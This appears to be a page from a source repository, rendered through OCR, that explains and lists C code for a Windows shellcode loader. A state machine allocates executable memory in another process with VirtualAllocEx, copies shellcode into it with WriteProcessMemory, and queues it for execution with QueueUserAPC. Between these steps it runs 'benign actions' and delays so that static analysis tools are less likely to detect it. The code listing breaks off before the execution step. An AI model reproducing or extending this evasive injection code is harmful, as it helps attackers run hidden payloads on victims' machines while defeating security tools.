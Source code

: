 The State enum defines various stages of the process:

**STATE_ALLOCATE**: Allocates memory in the target process using VirtualAllocEx.

**STATE_BENIGN**: Executes benign actions and adds a delay to obscure the intent of the program, making it harder for static analysis tools to detect malicious behavior.
STATE_WRITE: Writes the shellcode into the allocated memory with WriteProcessMemory.

**STATE_BENIGN_AGAIN**: Executes additional benign actions, further confusing analysis tools and delaying detection.

S**TATE_EXECUTE**: Executes the shellcode by queuing it with QueueUserAPC.



```bash
enum State {
    STATE_ALLOCATE,
    STATE_BENIGN,
    STATE_WRITE,
    STATE_BENIGN_AGAIN,
    STATE_EXECUTE,
    STATE_DONE
};

void obfuscatedControlFlow(LPVOID shellcode, SIZE_T shellcodeSize, PROCESS_INFORMATION* pi, 
    LPVOID (WINAPI *pVirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD),
    BOOL (WINAPI *pWriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*),
    DWORD (WINAPI *pQueueUserAPC)(PAPCFUNC, HANDLE, ULONG_PTR)) 
{
    State state = STATE_ALLOCATE;
    LPVOID bufferAddr = NULL;
    
    while (state != STATE_DONE) {
        switch (state) {
            case STATE_ALLOCATE:
                // Allocate memory in the target process
                bufferAddr = pVirtualAllocEx(pi->hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                if (bufferAddr) {
                    state = STATE_BENIGN;
                }
                break;

            case STATE_BENIGN:
                // Perform some benign system activities to confuse analysis
                performBenignActions();
                advancedSleep();
                state = STATE_WRITE;  // Move to the next state
                break;

            case STATE_WRITE:
                // Write the shellcode into the allocated memory
                if (pWriteProcessMemory(pi->hProcess, bufferAddr, shellcode, shellcodeSize, NULL)) {
                    state = STATE_BENIGN_AGAIN;
                } else {
                    state = STATE_DONE;  // Error encountered
                }
                break;

            case STATE_BENIGN_AGAIN:
                // Perform more benign activities after writing shellcode
                performBenignActions();
                state = STATE_EXECUTE;  // Proceed to execution after more obfuscation
                break;

```